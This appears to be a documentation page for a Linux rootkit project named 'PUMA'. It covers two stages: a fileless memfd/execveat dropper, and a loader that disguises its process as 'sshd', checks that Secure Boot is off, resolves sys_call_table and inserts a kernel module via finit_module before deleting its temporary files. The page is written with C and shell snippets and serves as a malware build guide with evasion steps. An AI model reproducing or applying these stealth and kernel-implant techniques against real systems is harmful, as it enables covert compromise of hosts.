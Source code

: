 ```yaml
---
title: "Fileless Dropper & Rootkit Loader"
description: "Stages 1 & 2: in-memory payload staging and LKM insertion"
icon: "cloud_download"
date: "2025-05-11T18:15:00+01:00"
lastmod: "2025-05-11T18:15:00+01:00"
draft: false
toc: true
weight: 10
---
```


# Stage 1: Fileless Memfd Dropper

{{< alert context="info" icon="⚙️" text="We stage both loader and cron stub entirely in memory--no on-disk binaries." />}}

1. We call  
   ```c
   fd_loader = memfd_create("loader", MFD_CLOEXEC);
   fd_target = memfd_create("target", MFD_CLOEXEC);
   ```
   to get two anonymous file descriptors.
2. We `write()` our embedded ELF blobs into each fd.
3. We `fork()`:
   - **Child**: redirect stdout/stderr to `/dev/null`, then
     ```c
     execveat(fd_loader, NULL, argv_loader, envp, AT_EMPTY_PATH);
     ```
   - **Parent**: `waitpid()`, then
     ```c
     execveat(fd_target, NULL, argv_target, envp, AT_EMPTY_PATH);
     ```

{{< tip >}}
`execveat(..., AT_EMPTY_PATH)` lets us execute a program by FD without any filename on disk.
{{< /tip >}}

---

# Stage 2: Environment-Aware Loader

{{< alert context="warning" icon="🔍" text="We verify Secure Boot is off, extract the kernel image, resolve symbols, and then insert our LKM." />}}

1. We rename our process to "sshd" via  
   ```c
   prctl(PR_SET_NAME, "sshd", 0, 0, 0);
   ```
2. We scan `dmesg` for "Secure boot" strings. If found, we abort.
3. We drop a helper script `/tmp/loader.sh` that:
   - Uses `file` + `grep` to detect gzip/xz/bz2/lz4/zstd.
   - Runs `tail -c +<offset>` + the right decompressor → `/tmp/vmlinux`.
4. In `loader.c`, we open `/tmp/vmlinux` and call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
5. We load our kernel module by creating another memfd for `puma.ko` and calling:
   ```c
   finit_module(fd_puma_ko, "", 0);
   ```
6. Finally, we remove `/tmp/loader.sh` and `/tmp/vmlinux`.

---

## Code Locations

- `rootkit/dropper/dropper.c`  
- `rootkit/loader/loader.c` & `rootkit/loader/loader.sh`

## Quick Test

```bash
./rootkit/dropper/cron
dmesg | grep "PUMA is compatible"
dmesg | grep "PUMA loaded"
```